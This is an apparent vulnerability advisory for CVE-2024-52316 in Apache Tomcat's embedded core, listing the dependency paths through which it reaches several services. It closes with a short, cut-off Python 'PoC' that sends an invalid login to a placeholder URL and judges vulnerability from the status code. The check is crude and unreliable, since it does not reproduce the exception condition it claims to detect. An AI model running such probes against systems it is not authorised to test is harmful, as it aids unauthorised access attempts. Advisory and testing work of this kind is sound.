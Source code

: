 Introduced through: com.binaryoption:option-market-service@0.0.1-SNAPSHOT › org.springframework.boot:spring-boot-starter-web@2.7.18 › org.springframework.boot:spring-boot-starter-tomcat@2.7.18 › org.apache.tomcat.embed:tomcat-embed-core@9.0.83
Introduced through: com.binaryoption:option-order-service@0.0.1-SNAPSHOT › org.springframework.boot:spring-boot-starter-web@2.7.18 › org.springframework.boot:spring-boot-starter-tomcat@2.7.18 › org.apache.tomcat.embed:tomcat-embed-core@9.0.83
Introduced through: com.binaryoption:option-security-base@0.0.1-SNAPSHOT › org.springframework.boot:spring-boot-starter-web@2.7.18 › org.springframework.boot:spring-boot-starter-tomcat@2.7.18 › org.apache.tomcat.embed:tomcat-embed-core@9.0.83
Overview
org.apache.tomcat.embed:tomcat-embed-core is a Core Tomcat implementation.

Affected versions of this package are vulnerable to Uncaught Exception due to the custom Jakarta Authentication ServerAuthContext component which may throw an exception during the authentication process without setting an HTTP status to indicate failure. An attacker can gain unauthorized access by exploiting this unchecked error condition.

Note:

This is only exploitable if Tomcat is configured to use a custom Jakarta Authentication ServerAuthContext component that behaves in this way. According to the maintainers, no such cases are known.

PoC
import requests
        
        # Target server configuration
        TARGET_URL = "http://example.com/login"  # Replace with your target's authentication URL
        TEST_HEADERS = {
            "Content-Type": "application/json"
        }
        TEST_PAYLOAD = {
            "username": "test_user",  # Sample username
            "password": "invalid_password"  # Invalid password for testing
        }
        
        def check_cve_2024_52316(target_url):
            """
            Test for CVE-2024-52316 vulnerability by sending crafted authentication requests.
        
            Args:
                target_url (str): The URL of the authentication endpoint to test.
            """
            try:
                print(f"[*] Sending test request to {target_url}")
                # Send a POST request with the test payload
                response = requests.post(target_url, json=TEST_PAYLOAD, headers=TEST_HEADERS, timeout=5)
                
                # Analyze the server's response
                if response.status_code in [401, 403]:
                    print(f"[SAFE] The server returned an expected HTTP status code: {response.status_code}")
                elif response.status_code == 200:
                    print(f"[VULNERABLE] Potential CVE-2024-52316 detected! Server returned status code: {response.status_code}")
                else:
                    print(f"[INFO] Unexpected HTTP status code: {response.status_code}")
                    print("Response content:", response.text)
            except requests.exceptions.RequestException as e:
                print(f"[ERROR] Failed to connect to the target: {e}")
        